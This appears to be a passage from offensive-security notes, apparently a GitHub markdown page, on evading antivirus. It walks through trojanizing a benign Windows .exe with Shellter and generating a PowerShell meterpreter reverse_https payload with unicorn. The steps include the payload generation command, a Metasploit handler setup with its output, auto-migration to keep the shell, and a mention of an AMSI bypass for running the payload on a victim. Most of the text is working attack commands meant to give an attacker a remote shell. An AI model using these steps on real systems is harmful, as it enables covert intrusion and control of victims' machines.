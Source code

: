 ### Step #1: obtain a benign `.exe` program (ex: notepad++, winrar, vlc media player or better yet, one of the applications used by the clients)
### Step #2: run `shellter` from the terminal and go through the wizard steps. select a payload
### Step #3: configure metasploit multi handler according to chosen payload
### Step #4: *before running the handler,* don't forget to set up `auto migrate` to avoid losing the shell
```
set AutoRunScript post/windows/manage/migrate
```

---

## unicorn [github](https://github.com/trustedsec/unicorn): WORKS! (31/7/2022)
### Step #1: use the tool to generate a `powershell_attack.txt` and a `unicorn.rc` files for the payload you choose
```bash
python ./unicorn.py windows/x64/meterpreter/reverse_https 20.20.20.129 443
```
### Step #2: run metasploit with the `-r` flag and pass it the `unicorn.rc` file as an argument
```bash
msfconsole -q -r unicorn.rc
```
### output
```
[*] Processing unicorn.rc for ERB directives. 
resource (unicorn.rc)> use multi/handler         
[*] Using configured payload generic/shell_reverse_tcp
resource (unicorn.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
resource (unicorn.rc)> set LHOST 20.20.20.129
LHOST => 20.20.20.129
resource (unicorn.rc)> set LPORT 443
LPORT => 443                                             
resource (unicorn.rc)> set ExitOnSession false
ExitOnSession => false                                   
resource (unicorn.rc)> set AutoVerifySession false
AutoVerifySession => false                               
resource (unicorn.rc)> set AutoSystemInfo false
AutoSystemInfo => false                                                                                           
resource (unicorn.rc)> set AutoLoadStdapi false
AutoLoadStdapi => false                                  
resource (unicorn.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://20.20.20.129:443
```
### Step #3: run the two commands present in `powershell_attack.txt` where you have code execution on the victim
### here's what a sample `powershell_attack.txt` contains
```shell
# AMSI bypass code - run in same process as unicorn second stage
```